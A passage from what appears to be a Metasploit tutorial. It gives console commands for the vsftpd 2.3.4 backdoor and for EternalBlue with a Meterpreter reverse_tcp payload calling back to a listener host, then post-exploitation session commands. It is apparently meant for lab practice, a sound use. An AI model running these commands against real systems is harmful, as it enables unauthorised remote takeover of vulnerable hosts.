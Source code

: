 ### 4) Find and select exploits
```text
# Filter by service/version
search type:exploit name:vsftpd

# Show details (rank, check support, references)
use exploit/unix/ftp/vsftpd_234_backdoor
info
show options
```

### 5) Set options and payloads
Global helpers (optional):
```text
# Set defaults for the session
setg LHOST 10.10.1.50
setg THREADS 16
```

Example A: Exploit vsftpd 2.3.4 (Metasploitable-like)
```text
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.5
show options
check           # if module supports it
run             # or: exploit
```

Example B: EternalBlue (Windows MS17-010)
```text
search type:exploit ms17-010
use exploit/windows/smb/ms17_010_eternalblue
show targets
set RHOSTS 10.10.10.7
set RPORT 445
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.1.50
check
run
```

### 6) Session management and Meterpreter basics
```text
# List sessions
sessions

# Interact with a session
sessions -i 1

# In a Meterpreter session:
getuid
sysinfo
ipconfig           # works cross-platform in meterpreter
pwd
ls

# Get a system shell from meterpreter and return
shell
whoami
exit

# Background meterpreter
background

# Upgrade a plain shell to meterpreter (if possible)
```
